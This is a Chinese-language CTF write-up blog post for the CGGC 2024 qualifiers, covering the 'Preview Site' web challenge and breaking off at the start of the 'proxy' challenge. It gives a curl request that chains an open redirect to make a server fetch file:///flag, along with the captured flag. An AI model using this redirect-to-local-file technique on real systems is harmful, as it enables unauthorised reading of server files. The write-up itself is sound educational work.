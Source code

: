 +++
Title = "CGGC 2024 Quals Writeup"
Date = "2024-11-04 00:00:00 +0800 CST"
Description = ""
Tags = ["CTF", "Writeup"]
Categories = ["CTF"]
menu = "main"
aliases = ["/posts/ctf/cggc-2024-quals"]
+++

這次和 \_Viεcon\_、Andy Lu 和 [Darrin Lin](https://darrin.cc/) 組隊參加國科會舉辦的 [2024 CGGC 網路守護者挑戰賽](https://cggc.nchc.org.tw/)。

![solves](solves.webp)
我花了四個多小時就把 Web 題解完，後面盯著 Autonomous Systems 相關的文件十幾個小時沒解開那題 Network Security。

## Preview Site 🔍

題目作者：[Vincent55](https://vincent55.tw/)\
[官方解](https://github.com/Vincent550102/My-CTF-Challenge/tree/main/cggc_2024_qual#preview-site-)

{{<details "Source code"></details>}}

登入後可以提供一個 URI 給 Admin Bot 去 Fetch，但 URI 必須以 `http://previewsite/` 開頭，並且只會跟著 Redirect 一次。

在 `/logout` 有一個 `next` 參數，可以用來 Redirect 到任意網址，剛好 `requests` 看得懂 `file://` Protocol，這裡可以用來 Redirect 到 `file:///flag`。

```bash
curl 'http://10.99.66.5:10002/fetch' \
  -H 'Cookie: session=<Guest 的 Session>' \
  --data-raw 'url=http://previewsite/logout?next=file:///flag'

<h3>Result:</h3>
<pre><code>CGGC{open_redirect_to_your_local_file_2893hrgiubf3wq1}
</code></pre>
```

## proxy

題目作者：[Chumy](https://blog.chummydns.com/)\
[原始碼](https://github.com/Jimmy01240397/My-CTF-Challenges/tree/master/cggc-2024/proxy)
